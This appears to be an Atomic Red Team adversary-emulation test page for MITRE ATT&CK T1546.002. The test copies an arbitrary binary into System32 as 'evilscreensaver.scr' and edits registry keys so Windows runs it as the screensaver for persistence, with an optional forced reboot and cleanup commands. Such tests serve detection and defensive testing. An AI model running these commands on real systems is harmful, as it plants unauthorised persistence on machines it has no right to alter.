 ```yaml
---
tags: [T1546_002, atomic_test]
filename: "[[T1546.002|T1546.002 - Event Triggered Execution: Screensaver]]"
---
```

# T1546.002 - Event Triggered Execution: Screensaver

## Atomic Test #1 - Set Arbitrary Binary as Screensaver
This test copies a binary into the Windows System32 folder and sets it as the screensaver so it will execute for persistence. Requires a reboot and logon.

**Supported Platforms:** Windows


**auto_generated_guid:** 281201e7-de41-4dc9-b73d-f288938cbb64





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_binary | Executable binary to use in place of screensaver for persistence | path | C:&#92;Windows&#92;System32&#92;cmd.exe|
| reboot | Set to non-zero value if you want the test to reboot the system so that changes take effect | integer | 0|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg export "HKEY_CURRENT_USER\Control Panel\Desktop" %userprofile%\backup.reg
copy #{input_binary} "%SystemRoot%\System32\evilscreensaver.scr"
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaveActive /t REG_SZ /d 1 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaveTimeout /t REG_SZ /d 60 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaverIsSecure /t REG_SZ /d 0 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v SCRNSAVE.EXE /t REG_SZ /d "%SystemRoot%\System32\evilscreensaver.scr" /f
if #{reboot} NEQ 0 shutdown /r /t 0
```

#### Cleanup Commands:
```cmd
reg import %userprofile%\backup.reg
del %userprofile%\backup.reg
del %SystemRoot%\System32\evilscreensaver.scr
```





<br/>
